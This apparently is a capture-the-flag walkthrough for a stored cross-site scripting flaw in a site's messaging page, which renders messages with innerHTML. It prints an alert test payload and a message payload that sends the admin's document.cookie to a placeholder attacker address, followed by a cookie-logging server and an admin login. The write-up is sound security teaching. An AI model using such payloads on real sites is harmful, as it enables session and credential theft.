 ## Walkthrough
Sites that allow users to send each other messages are sometimes vulnerable to cross site scripting attacks. These attacks inject a script into a victim's browser using a message. This script often forces the victim's browser to navigate to a malicious website or to send the victim's personal information to the attacker.

One of the signs that this site is vulnerable to a xss attack is by looking at how it displays messages. By checking the "View Messages" page, you can see that it calls the populateMessages function in message.js after loading. The populateMessages function uses an ajax GET request with the user's username and password (from cookies). When the result is a 201, it adds the messages' subjects to the sidebar. Clicking the subject will cause the message to load in the main part of the screen. You can tell that this is vulnerable to a xss attack because it uses ".innerHTML = " to display the messages. This method simply inserts the message between the tags of an element, and there are no checks for if the message is HTML that will execute. For example, an element "&lt;p>&lt;/p>" that calls "el.innerHTML = '&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload="alert(1)" />'" will show an alert with the message "1".

Since you are able to message the admin, you can send them a message "'&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload=window.location="http://your_ip?cookie=" + document.cookie />'". When the admin opens the message, their browser will be directed to the site that you specified. You will have already set up this site to save the cookie parameter of the query of any requests that it receives. One example is to set up a very simple Node.js server (like this one) that has a GET on "/" and will save the "cookie" query parameter to a file. Since you have the admin's cookie, you have the admin's username and password since we already know that the username and password must be in the cookies from the populateMessages function. You are able to login as the admin and view the flag.
